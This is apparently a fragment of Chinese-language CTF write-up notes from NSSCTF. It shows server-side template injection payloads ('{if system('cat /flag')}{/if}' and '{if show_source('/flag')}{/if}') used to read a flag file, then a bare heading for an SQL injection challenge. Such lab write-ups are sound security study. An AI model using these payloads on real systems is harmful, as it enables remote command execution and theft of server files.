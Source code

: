 尝试

```
{if system('cat /flag')}{/if}
```

没有回显

使用

```
{if show_source('/flag')}{/if}
```

![image-20250815083558854](./NSSCTF-5.assets/image-20250815083558854.png)

# *[强网杯 2019]随便注*

![image-20250815092216071](./NSSCTF-5.assets/image-20250815092216071.png)
